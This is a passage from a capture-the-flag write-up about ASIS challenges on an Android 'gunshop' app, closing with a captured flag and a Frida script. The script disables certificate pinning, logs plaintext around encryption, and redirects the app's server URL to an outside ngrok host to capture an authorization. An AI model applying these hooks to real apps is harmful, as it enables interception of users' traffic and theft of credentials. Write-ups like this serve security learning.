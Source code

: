 ![ngrok2](https://i.imgur.com/PKCfwT4.png)

I used the authorization, and voilà:

![authorized](https://i.imgur.com/bGxXswc.png)

Flag: `ASIS{0Ld_B16_br0Th3r_H4d_a_F4rm}`

So, one Frida script (and several hours) got me 2 flags:

```java
    Java.perform(
        function () {
            var m = Java.use("android.gunshop.com.gunshop.m");
            
            //Cert pinning bypass
            m.a.overload("javax.net.ssl.HttpsURLConnection", "java.util.Set").implementation = function () {
                return true;
            };

            //View before Encrypt + SSRF replace
            m.a.overload("java.lang.String", "java.security.Key").implementation = function (str, key) {
                str = str.replace(/http:\\\/\\\/188.166.76.14:42151\\\/DBdwGcbFDApx93J3/, 'https:\\/\\/a7af3844.ngrok.io')
                var ret = this.a(str, key)
                console.log("Plain: " + str)
                return ret
            };

            //View after Decrypt
            m.b.overload("java.lang.String", "java.security.Key").implementation = function (str, key) {
                var ret = this.b(str, key)
                console.log("Plain: " + ret)
                return ret
            };
        }
    )
```

## Thanks

Thank you Alisson for helping me in getting Frida to work properly and thank you ASIS for these two fun challenges! :)
